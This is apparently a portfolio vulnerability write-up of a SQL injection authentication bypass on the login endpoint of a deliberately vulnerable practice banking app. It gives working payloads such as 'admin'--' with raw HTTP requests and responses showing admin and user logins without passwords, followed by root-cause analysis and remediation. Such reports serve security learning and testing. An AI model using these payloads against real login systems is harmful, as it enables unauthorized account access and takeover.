

# SQL Injection Authentication Bypass on Login

- **Vulnerability Type:** CWE-89 — SQL Injection
- **Impact Category:** Authentication Bypass / Privilege Escalation
- **Target / Platform:** `vulnbank.org`
- **Severity / CVSS:** Critical
- **Affected Endpoint:** `POST /login`

---

## 📌 Summary

The login endpoint is vulnerable to SQL injection through the `username` field. By injecting a comment-based payload such as `admin'--`, the application bypasses normal authentication logic and logs the attacker in as the administrator.

This issue is especially dangerous because the attacker does not need to know the password. In the tested case, simply knowing or guessing a valid username was enough to gain access.

---

## 📝 Description

The application appears to build its login query using unsanitized user input. When the `username` parameter is modified with a SQL comment sequence, the backend authentication logic is bypassed and the response indicates a successful login.

During testing, the payload `admin'--` caused the application to authenticate the session as the `admin` user, even though the password value was arbitrary. A second test using `useradmin@gmail.com'--` also confirmed that the application accepts the injected username and returns a valid session token.

This behavior strongly indicates that the login query is vulnerable to SQL injection and that authentication depends on raw client input instead of proper server-side credential verification.

---

## 🎯 Impact

A successful attacker can bypass authentication and impersonate other users, including administrators. In a real deployment, this could lead to unauthorized access to sensitive data, privileged operations, account compromise, and full application takeover.

If administrative access is obtained, the attacker may be able to view all user accounts, modify balances, perform unauthorized transfers, or access internal features that should be restricted to trusted users only.

---

## 🛠️ Proof of Concept

### Test Case 1 — Admin Login Bypass

#### Raw HTTP Request

```http id="j2m8q1"
POST /login HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Origin: http://127.0.0.1
Referer: http://127.0.0.1/login
Connection: keep-alive

{"username":"admin'--","password":"b"}
```

#### Raw HTTP Response

```http id="k8r5n4"
HTTP/1.0 200 OK
Content-Type: application/json
Set-Cookie: token=<JWT>; HttpOnly; Path=/

{
  "accountNumber": "ADMIN001",
  "debug_info": {
    "account_number": "ADMIN001",
    "is_admin": true,
    "user_id": 6,
    "username": "admin"
  },
  "isAdmin": true,
  "message": "Login successful",
  "status": "success"
}
```

### Test Case 2 — Username-Based Authentication Bypass

#### Raw HTTP Request

```http id="x4v9c2"
POST /login HTTP/1.1
Host: 127.0.0.1
Content-Type: application/json
Origin: http://127.0.0.1
Referer: http://127.0.0.1/login
Connection: keep-alive

{"username":"useradmin@gmail.com'--","password":"p"}
```

#### Raw HTTP Response

```http id="m7p1s8"
HTTP/1.0 200 OK
Content-Type: application/json
Set-Cookie: token=<JWT>; HttpOnly; Path=/

{
  "accountNumber": "6149512577",
  "debug_info": {
    "account_number": "6149512577",
    "is_admin": false,
    "user_id": 17,
    "username": "useradmin@gmail.com"
  },
  "isAdmin": false,
  "message": "Login successful",
  "status": "success"
}
```

---

## 📷 Evidence

### Admin session created without knowing the password



### Successful authentication as admin

- `isAdmin: true`
- `accountNumber: ADMIN001`
- JWT token issued in `Set-Cookie`

### Successful authentication using only a guessed username

- `useradmin@gmail.com'--` is accepted
- Session token is still returned
- Login succeeds even though the password is arbitrary

---

## 🔍 Root Cause

The application likely constructs its authentication query directly from user-supplied input without proper parameterization.

Because the `username` field is interpreted as part of the SQL statement, the attacker can terminate the query and comment out the remaining authentication condition using `--`. This causes the backend to treat the injected username as a valid login condition.

---

## 🔁 Attack Flow

```text id="z6h4t1"
Attacker submits payload in username
        │
        ▼
SQL query becomes injectable
        │
        ▼
Password check is bypassed
        │
        ▼
Application returns a valid admin/user session
        │
        ▼
Attacker gains access to the dashboard
```

---

## 🛡️ Remediation

- Use parameterized queries or prepared statements for all authentication logic.
- Never concatenate raw input into SQL queries.
- Enforce proper input validation on login parameters.
- Add server-side rate limiting and brute-force detection.
- Return generic authentication errors to avoid leaking account validity.
- Review all database access points for SQL injection risks.

---

## 📚 References

- CWE-89 — SQL Injection
- OWASP Top 10 — Injection
- OWASP Cheat Sheet Series — SQL Injection Prevention

---

## 📝 Notes

This is a beginner-friendly but high-impact finding because the exploit is simple, the result is immediate, and the evidence is easy to reproduce. For a portfolio, this is a strong first SQLi write-up because it clearly demonstrates authentication bypass with minimal payload complexity.
